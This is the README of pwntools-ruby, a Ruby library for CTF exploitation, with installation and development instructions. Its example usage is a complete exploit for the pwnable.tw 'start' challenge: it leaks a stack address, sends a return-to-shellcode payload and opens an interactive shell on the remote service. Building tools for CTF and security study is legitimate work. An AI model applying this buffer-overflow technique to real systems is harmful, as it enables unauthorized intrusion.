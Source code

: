 [![GitHub stars](https://img.shields.io/github/stars/peter50216/pwntools-ruby.svg)](https://github.com/peter50216/pwntools-ruby/stargazers)
[![Dependency Status](https://img.shields.io/gemnasium/peter50216/pwntools-ruby.svg)](https://gemnasium.com/peter50216/pwntools-ruby)
[![Build Status](https://img.shields.io/travis/peter50216/pwntools-ruby.svg)](https://travis-ci.org/peter50216/pwntools-ruby)
[![Test Coverage](https://img.shields.io/codeclimate/coverage/github/peter50216/pwntools-ruby.svg)](https://codeclimate.com/github/peter50216/pwntools-ruby/coverage)
[![Code Climate](https://img.shields.io/codeclimate/github/peter50216/pwntools-ruby.svg)](https://codeclimate.com/github/peter50216/pwntools-ruby)
[![Inline docs](https://inch-ci.org/github/peter50216/pwntools-ruby.svg)](https://inch-ci.org/github/peter50216/pwntools-ruby)
[![MIT License](https://img.shields.io/badge/license-MIT-blue.svg)](http://choosealicense.com/licenses/mit/)

# pwntools-ruby

Always sad when playing CTF that there's nothing equivalent to pwntools in Python.
While pwntools is awesome, I always love Ruby far more than Python...
So this is an attempt to create such library.

Would try to have consistent naming with original pwntools, and do things in Ruby style.

Here's an exploitation for `start` which is a challenge on `pwnable.tw`.
# Example Usage
```ruby
# encoding: ASCII-8BIT
# The encoding line is important most time, or you'll get "\u0000" when using "\x00" in code,
# which is NOT what we want when doing pwn...

require 'pwn'

context.log_level = :debug
z = Sock.new 'chall.pwnable.tw', 10000

z.recvuntil "Let's start the CTF:"
z.send p32(0x8048087).rjust(0x18, 'A')
stk = u32(z.recvuntil "\xff")
log.info "stack address: #{stk.hex}" # Log stack address

# Return to shellcode
addr = stk + 0x14
payload = addr.p32.rjust(0x18, 'A') + asm(shellcraft.sh)
z.write payload

# Switch to interactive mode
z.interact
```

More features and details can be found in the
![documentation](http://www.rubydoc.info/github/peter50216/pwntools-ruby/master/frames).

# Installation

Since there are two gems, which `pwntools-ruby` depends on, didn't be published to rubygems,
you should install them by self. :disappointed:

```sh
gem install pwntools

git clone https://github.com/bnagy/crabstone.git /tmp/crabstone
cd /tmp/crabstone
gem build crabstone.gemspec
gem install crabstone

git clone https://github.com/sashs/ruby-keystone.git /tmp/ruby-keystone
cd /tmp/ruby-keystone/keystone_gem
gem build keystone.gemspec
gem install keystone
```

Some of the features (assembling/disassembling) require non-Ruby dependencies. Checkout the
installation guide for
[keystone-engine](https://github.com/keystone-engine/keystone/tree/master/docs) and
[capstone-engine](http://www.capstone-engine.org/documentation.html).

Or you can be able to get running quickly with
```sh
# Install capstone
sudo apt-get install libcapstone3

# Compile and install Keystone from source.
sudo apt-get install cmake
git clone https://github.com/keystone-engine/keystone.git /tmp/keystone
cd /tmp/keystone
mkdir build
cd build
../make-share.sh
sudo make install
```

# Development
```sh
git clone git@github.com:peter50216/pwntools-ruby.git
cd pwntools-ruby
rake
```

# Note to irb users
irb defines `main.context`.

For the ease of exploit development in irb, that method would be removed if you use `require 'pwn'`.

You can still get the `IRB::Context` by `irb_context`.
